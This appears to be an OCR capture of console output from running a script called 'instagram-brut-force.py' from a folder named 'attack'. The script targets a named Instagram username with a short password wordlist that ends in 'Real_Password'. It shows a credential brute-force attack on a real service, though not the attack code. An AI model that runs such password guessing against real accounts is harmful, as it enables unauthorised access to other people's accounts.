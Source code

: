 E:\100dayPithon\instagram\attack>python instagram-brut-force.py
Username: deboxadovendas
chosse dictionary:jacko
1234
45561
limak
kasih
gurua
testi
12345
54321
54312
tools
jeemm
genoa
trips
jacko
democ
repub
trust
thats
fives
chara
cters
can't
beuse
inthe
insta
gram
page
sooo
uneed
six
chara
cters
Real_Password
